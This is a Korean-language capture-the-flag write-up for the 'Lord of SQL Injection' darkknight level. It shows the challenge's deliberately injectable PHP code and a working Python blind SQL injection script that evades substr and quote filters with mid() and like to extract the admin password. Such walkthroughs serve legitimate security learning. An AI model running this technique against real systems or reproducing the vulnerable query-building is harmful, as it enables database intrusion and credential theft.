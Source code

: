 # Lord of SQL Injection No.12 - darkknight

## 문제 출제 의도

substr를 우회하여 Blind SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
* preg_match에서 no의 'prob','_','.','()','substr','ascii'을 찾아 있는지 없는지 필터링 한다.

* preg_match에서 pw의 '를 찾아 있는지 없는지 필터링 한다.

* Blind SQL Injection 문제임을 알 수 있다.

## 문제 해결 방안

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수

for i in range(1,9):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = '-1 or mid(pw,1,{}) like "{}" -- -'.format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

* substr 대체함수로 mid함수를 이용한다.
### mid()
    첫번째 인자의 문자열에서 두번째 인자부터 세번째 인자 사이의 문자열을 반환한다.

* id='guest'를 무력화 시켜야 되기에 굳이 pw의 값을 넘겨줄 필요가 없으므로 no의 값을 바꿔주며 입력한다.

* no는 '를 preg_match하므로 "를 이용해준다. SQL에서 '와 "는 같은 기능을 하기 때문이다.

코드의 실행결과 1c62ba6f가 출력되므로 pw=1c62ba6f를 입력하게 되면 문제가 해결된다.